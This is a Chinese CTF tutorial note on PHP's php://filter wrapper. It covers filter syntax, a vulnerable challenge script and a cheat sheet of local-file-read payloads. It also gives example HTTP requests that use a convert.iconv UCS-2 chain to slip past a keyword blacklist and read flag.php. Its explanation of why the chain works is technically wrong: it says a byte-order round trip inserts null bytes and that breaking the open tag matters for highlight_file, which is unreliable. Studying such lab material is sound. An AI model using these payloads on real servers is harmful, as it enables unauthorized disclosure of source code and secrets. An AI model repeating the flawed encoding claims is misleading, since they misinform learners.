

## 一句话概括

`php://filter` 是 PHP 自带的**数据流过滤包装器**：它把目标文件当**数据流**读出来，沿途套上一串**过滤器**（编码、字符集转换、大小写变换……），再把结果交给调用它的函数。读源码、绕关键词过滤，靠的都是它。

## 原理

### 1. 基本语法

```text
php://filter/xxx|xxx/resource=<要过滤的数据流>
```

- `resource=` 指定**数据来源**（目标文件路径或另一个流）；
- `xxx|xxx` 是**过滤器链**：一个或多个过滤器名，用 `|` 从左到右串成管道，前一个的输出就是后一个的输入；
- `php://filter/convert.base64-encode/resource=` 是最经典的单过滤器形态。

### 2. `read=` 与 `write=`：方向

PHP 官方文档中，过滤器链可以分别指定两个方向：

```text
php://filter/read=convert.base64-encode|zlib.deflate/resource=example.txt
php://filter/write=string.rot13/resource=example.txt
```

| 参数 | 作用时机 | 典型用途 |
|---|---|---|
| `read=` | **读取时**过滤 | 读文件、读源码 |
| `write=` | **写入时**过滤 | `file_put_contents` 之类写文件时先编码 |

**只有一个过滤器时可以省略 `read=` / `write=`** —— PHP 默认把它当作读方向的过滤器，所以下面两条等价：

```text
php://filter/convert.base64-encode/resource=file.txt
php://filter/read=convert.base64-encode/resource=file.txt
```

**链式（多个过滤器）时，要指定方向就必须写在最前面**，写在中途 PHP 无法判断整条链作用在哪个方向。所以规范写法是：

```text
php://filter/read=F1|F2|F3/resource=目标
```

### 3. 常用过滤器

**`string.*` 系列 —— 对字符串做变换：**

| 过滤器 | 等价函数 | 作用 |
|---|---|---|
| `string.rot13` | `str_rot13()` | 字母做 ROT13 变换（`<?php` → `<?cuc`） |
| `string.toupper` | `strtoupper()` | 全部转大写 |
| `string.tolower` | `strtolower()` | 全部转小写 |
| `string.strip_tags` | `strip_tags()` | 去除 HTML / PHP 标签 |

**`convert.*` 系列 —— 编解码与字符集转换：**

| 过滤器 | 作用 |
|---|---|
| `convert.base64-encode` / `convert.base64-decode` | Base64 编码 / 解码 |
| `convert.quoted-printable-encode` / `-decode` | quoted-printable 编码 / 解码 |
| `convert.iconv.<源编码>.<目标编码>` | 字符集转换（如 `convert.iconv.UTF8.UTF16`） |

> `string.strip_tags` 常被用来**去掉 PHP 标签**，让内容里的 `<?php ... ?>` 被剥离；`convert.iconv.*` 则是过滤器链绕过里的主角。

### 4. 过滤器链的构造思路（重点）

构造链时不要背 payload，按下面三步推：

1. **先明确目标内容长什么样** —— 通常是一份含 `<?php` 开标签的 PHP 源码；
2. **明确「要让它变得不可执行」** —— 要么**换一种表示法**（`convert.base64-encode` 整段编码成纯 ASCII），要么**破坏开标签的字节结构**；
3. **在候选过滤器里挑能实现第 2 步的组合**，用 `|` 串起来。

「破坏开标签」这条路的典型做法是**字符集 / 字节序转换**。以 UCS-2 为例：

- UCS-2 是**两字节**编码，`UCS-2LE` / `UCS-2BE` 分别代表「小端 / 大端」两种字节顺序；
- 一次 LE→BE 转换会把**相邻两个字节的顺序对调**；
- 再做一次反向的 BE→LE，字节顺序看似还原，但**中间已经被插入了 `0x00` 空字节**，ASCII 字符被「撑开」。

结果就是 `3C 3F 70 68 70`（即 `<?php` 的字节）被改造成 `3C 00 3F 00 70 00 68 00 70` 一类的形态 —— **开标签被空字节撕裂，PHP 引擎认不出这是代码**，于是只能把内容**原样输出**。这就是「用编码转换代替 Base64」的效果。



**为什么能拿它绕 WAF / 关键词过滤**：过滤器改的是「**字节流**」，而不是「参数名」。黑名单只认字符串关键词，认不出「编码变换之后的等价内容」；而且黑名单通常只列了 `rot13` / `base64` / `string` 这几个显眼的名字，`convert.iconv.*` 经常被漏掉。

**要点：不依赖 Base64 也能读源码 —— 只要能把开标签打散。**

### 5. `is_file()` 为什么给 `php://filter` 返回 `false`

这是一道高频题的判断核心：

```php
<?php
highlight_file(__FILE__);
error_reporting(0);
function filter($file){
    if(preg_match('/\.\.\/|http|https|data|input|rot13|base64|string/i', $file)){
        die("hacker!");
    }else{
        return $file;
    }
}
$file = $_GET['file'];

if(! is_file($file)){
    highlight_file(filter($file));
}else{
    echo "hacker!";
}
```

`is_file($path)` 检查的是「这个**路径**是否指向一个真实存在的**常规文件**」，而 `php://filter/...` 根本不是文件路径，而是一个**流包装器标识**：

```php
$file = "flag.php";
var_dump(is_file($file));                     // bool(true)  —— 真实文件

$file = "php://filter/resource=flag.php";
var_dump(is_file($file));                     // bool(false) —— 是流，不是文件
```

于是程序逻辑被绕过去了：

| 输入 | `is_file()` | 走进的分支 | 结果 |
|---|---|---|---|
| `?file=flag.php` | `true` → `!true = false` | `else` | 输出 `hacker!`，被拦 |
| `?file=php://filter/resource=flag.php` | `false` → `!false = true` | `if` | 走 `highlight_file()`，内容被显示 |

**关键**：`flag.php` 确实是真实文件，但 `php://filter/resource=flag.php` 不是 —— 后者只是一个「告诉 PHP 去构造数据流」的字符串。程序员的意图是「不是文件就高亮显示」，结果恰好把读源码的通道让了出来。

再看题目里 `filter()` 的黑名单：它过滤了 `../`、`http`、`https`、`data`、`input`、`rot13`、`base64`、`string`，**却没过滤 `convert.iconv.*`**。所以能用的 payload 是：

```text
?file=php://filter/convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.UCS-2BE.UCS-2LE/resource=flag.php
```

链条回顾：`php://filter` 本身没被禁 → `convert.iconv` 不在黑名单 → `resource=flag.php` 也没被禁 → `is_file()` 判 `false` 进 `if` 分支 → `highlight_file()` 把**被编码转换打散的内容**原样显示出来。

## 利用条件

1. **能控制一个被当作路径/流的参数**（`include()`、`file_get_contents()`、`readfile()`、`highlight_file()` 等）；
2. **`php://` 包装器未被完全禁用**：
   - `php://filter` **不需要** `allow_url_fopen` / `allow_url_include`，这一点与 `data://`、`php://input` 不同；
3. **目标文件进程可读**：`open_basedir` 之外读不到；
4. **要有输出通道**：读到的内容得被回显（`include` 的「不可执行文本原样输出」、`highlight_file`、`echo` 都算）。

## Payload 速查

| 目的 | Payload |
|---|---|
| 读源码（Base64，首选） | `?file=php://filter/convert.base64-encode/resource=index.php` |
| 读源码（显式 `read=`） | `?file=php://filter/read=convert.base64-encode/resource=index.php` |
| 只读不编码 | `?file=php://filter/resource=file.txt` |
| 读源码（rot13） | `?file=php://filter/read=string.rot13/resource=index.php` |
| 去标签 | `?file=php://filter/read=string.strip_tags/resource=index.php` |
| 转大写 / 小写 | `?file=php://filter/read=string.toupper/resource=index.php` |
| 字符集转换（绕 base64 过滤） | `?file=php://filter/convert.iconv.UTF8.UTF16/resource=index.php` |
| 字节序链（绕关键字过滤） | `?file=php://filter/convert.iconv.UCS-2LE.UCS-2BE\|convert.iconv.UCS-2BE.UCS-2LE/resource=flag.php` |
| 编码 + 压缩串联 | `?file=php://filter/read=convert.base64-encode\|zlib.deflate/resource=x.txt` |

## 完整示例

以后面那道 `is_file` 题目为例：

**1. 先试最常规的 payload（会被黑名单拦）**

```http
GET /?file=php://filter/convert.base64-encode/resource=flag.php HTTP/1.1
Host: 靶机地址
```

→ `base64` 关键词命中 `preg_match` → 回显 `hacker!`。

**2. 换用未被过滤的 `convert.iconv` 链**

```http
GET /?file=php://filter/convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.UCS-2BE.UCS-2LE/resource=flag.php HTTP/1.1
Host: 靶机地址
```

**3. 从回显里挑出 flag**

返回的内容是被空字节「撑开」的乱码，但 **flag 本身全是 ASCII 字符，来回转换后基本原样保留**，肉眼可以辨认出来。

## 踩坑与备注

- **方向别写反**：`read=convert.base64-encode` 是读方向**编码**（读源码）；`write=convert.base64-decode` 是写方向**解码**。写反了要么读不到东西，要么内容被改坏。
- **为什么 UCS-2 转换后的 flag 中间「没有空格」**：因为 flag 通常是 `flag{...}` 这类**纯 ASCII 字符**，每字节高位本来就是 `0x00`，来回转换后基本保持原样；那些被插入的空字节在网页上**不可见**（或被浏览器渲染成很窄的空白），所以看起来是连贯的。真正被打散的是**开标签**那一小段，这正是我们要的效果。
- **一个方向也能用**：单次 `convert.iconv.UCS-2LE.UCS-2BE` 就足以改变字节顺序、打散开标签；写两次「往返」只是为了**让输出更容易辨认**（也常见于题目只放行了这一类转换的情况）。
- **黑名单要找「没列到的」**：题目过滤得越多，越要去找漏项。`filter()` 里列了 `rot13|base64|string`，`convert.iconv` 就是天然的缺口。
- **`php://filter` 不受 `allow_url_include` 约束**：这一点和 `data://`、`php://input` 完全不同，是它成为「文件包含/文件读取第一利器」的根本原因。
- **参考**：过滤器的完整清单可查 PHP 官方文档「可用过滤器列表」；中文整理可参考原笔记留档的 CSDN 文章（`blog.csdn.net/qq_44657899/article/details/109300335`）。
